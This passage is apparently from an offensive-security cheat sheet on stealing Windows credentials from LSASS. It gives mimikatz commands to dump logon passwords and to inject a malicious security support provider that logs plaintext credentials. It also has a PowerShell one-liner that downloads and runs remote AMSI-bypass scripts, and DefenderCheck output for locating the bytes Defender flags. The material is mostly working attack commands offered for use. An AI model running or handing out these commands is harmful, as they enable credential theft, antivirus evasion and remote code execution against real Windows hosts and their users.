     #Finally run the logonpasswords function to dump lsass
    mimikatz # sekurlsa::logonpasswords
    ```
    
- LSA as a Protected Process (Userland "Fileless" Bypass)
    
    - [PPLdump](https://github.com/itm4n/PPLdump)
    - [Bypassing LSA Protection in Userland](https://blog.scrt.ch/2021/04/22/bypassing-lsa-protection-in-userland)
- LSA is running as virtualized process (LSAISO) by Credential Guard
    
    ```
    #Check if a process called lsaiso.exe exists on the running processes
    tasklist |findstr lsaiso
    
    #If it does there isn't a way tou dump lsass, we will only get encrypted data. But we can still use keyloggers or clipboard dumpers to capture data.
    #Lets inject our own malicious Security Support Provider into memory, for this example i'll use the one mimikatz provides
    mimikatz # misc::memssp
    
    #Now every user session and authentication into this machine will get logged and plaintext credentials will get captured and dumped into c:\\windows\\system32\\mimilsa.log
    ```
    

❗ What if mimikatz fails to launch due to defender or amsi?

```jsx
IEX (New-Object System.Net.WebClient).DownloadString("<https://raw.githubusercontent.com/V-i-x-x/AMSI-BYPASS/refs/heads/main/AvBypassTricks/hello.ps1>"); IEX (New-Object System.Net.WebClient).DownloadString("<https://raw.githubusercontent.com/V-i-x-x/AMSI-BYPASS/refs/heads/main/AvBypassTricks/hello2.ps1>"); IEX (New-Object System.Net.WebClient).DownloadString("<https://raw.githubusercontent.com/V-i-x-x/AMSI-BYPASS/refs/heads/main/AvBypassTricks/hello3.ps1>"); MagicBypass;
```

- Check with tooling with DefenderCheck to verify if a tool will get flagged:

```jsx
C:\\>DefenderCheck.exe mimikatz.exe
Target file size: 1427456 bytes
Analyzing...

[!] Identified end of bad bytes at offset 0x10B20B in the original file
File matched signature: "HackTool:Win64/MikatZ!dha"

00000000  00 5F 00 64 00 6F 00 4C 00 6F 00 63 00 61 00 6C   ._.d.o.L.o.c.a.l
00000010  00 20 00 3B 00 2F 00 22 00 25 00 73 00 22 00 20   . .;./.".%.s.". 
00000020  00 6D 00 6F 00 64 00 75 00 6C 00 65 00 20 00 6E   .m.o.d.u.l.e. .n
00000030  00 6F 00 74 00 20 00 66 00 6F 00 75 00 6E 00 64   .o.t. .f.o.u.n.d
00000040  00 20 00 21 00 0A 00 00 00 25 00 31 00 36 00 73   . .!.….%.1.6.s
00000050  00 2D 00 20 00 00 00 25 00 73 00 0A 00 00 00 5B   .- .….%.s.….[
00000060  00 25 00 73 00 5D 00 20 00 25 00 73 00 20 00 25   .%.s.]. .%.s. .%
00000070  00 73 00 0A 00 00 00 45 00 52 00 52 00 4F 00 52   .s.…...E.R.R.O.R
00000080  00 2D 00 20 00 25 00 73 00 0A 00 00 00 5B 00 25   .- .%.s.…...[.%
00000090  00 73 00 5D 00 20 00 25 00 73 00 0A 00 00 00 5F   .s.]. .%.s.…..._
000000A0  00 64 00 6F 00 4C 00 6F 00 63 00 61 00 6C 00 20   .d.o.L.o.c.a.l.  
000000B0  00 3B 00 2F 00 22 00 25 00 73 00 22               .;./.".%.s."
```
